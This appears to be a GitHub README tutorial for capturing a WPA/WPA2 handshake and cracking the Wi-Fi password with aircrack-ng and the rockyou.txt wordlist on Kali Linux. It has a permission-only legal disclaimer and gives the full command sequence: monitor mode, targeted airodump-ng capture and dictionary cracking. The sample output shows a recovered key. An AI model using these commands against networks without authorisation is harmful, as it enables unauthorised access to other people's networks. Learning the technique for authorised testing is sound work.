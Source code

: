 # WiFi Password Cracking

This documentation demonstrates how to perform a WPA/WPA2 Wi-Fi handshake capture and password cracking using Aircrack-ng inside Kali Linux. This is done **ethically** for testing purposes **on your own network** only.

---

## ⚠️ Legal Disclaimer

> 🚨 This documentation is **for educational and ethical testing purposes only**.  
> You must have **explicit permission** to test any network. Unauthorized access is **illegal** and punishable by law.

---

## 📦 Requirements

- **Kali Linux** (on VirtualBox/VMware or bare-metal)
- **External USB Wi-Fi Adapter (Wi-Fi Dongle)**  
  Must support:
  - **Monitor Mode**
  - **Packet Injection**  
  ✅ Examples:
  - ALFA AWUS036ACH  
  - TP-Link TL-WN722N v1

- `aircrack-ng` suite
- `rockyou.txt` wordlist or custom dictionary

---

## 🛠 Installation

```bash
sudo apt update
sudo apt install aircrack-ng
```
📡 Wi-Fi Hacking Steps (WPA/WPA2 Cracking)
------------------------------------------

### 🔌 1. Connect External Wi-Fi Adapter

> 💡 **Note:** If you're using a VM, your internal Wi-Fi card won't support monitor mode. Use an external USB Wi-Fi adapter.

### 🔍 2. Find Wireless Interface

```bash
iwconfig
```
Check for interface like `wlan0`.

### 🛑 3. Set Interface to Monitor Mode

```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up
```
### 📶 4. Start Airodump to Discover Networks

```bash
sudo airodump-ng wlan0
```
Note the **BSSID**, **channel**, and **ESSID** of the target network.

### 🎯 5. Capture the Handshake

Replace `<BSSID>` and `<channel>` with target info:

```bash
sudo airodump-ng --bssid <BSSID> -c <channel> -w capture wlan0
```
Wait until you see:\
`WPA Handshake: <BSSID>`

### 💥 6. Crack the Handshake

```bash
sudo aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```
> If `rockyou.txt` is missing, extract it using:

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```
### ✅ 7. If Password Found

Output will show:

```text
KEY FOUND! [ your_wifi_password ]
```
* * * * *

🧪 Sample Output
----------------

```text
`KEY FOUND! [ iloveyou ]

Master Key     : 34 4D B2 ...
Transient Key  : F1 52 5B ...
EAPOL HMAC     : 4B 63 5E ...`
```
* * * * *

📁 Files in this Repo
---------------------

| File Name | Description |
| --- | --- |
| `capture-01.cap` | Captured handshake file (example) |
| `README.md` | Documentation |

* * * * *

👨‍💻 Author
------------

[**Jagadish Tripathy**](https://www.linkedin.com/in/jagadishtripathy/)  
CEH v.12

* * * * *

⭐ Support
---------

If this documentation helped you, consider giving it a ⭐ on GitHub!
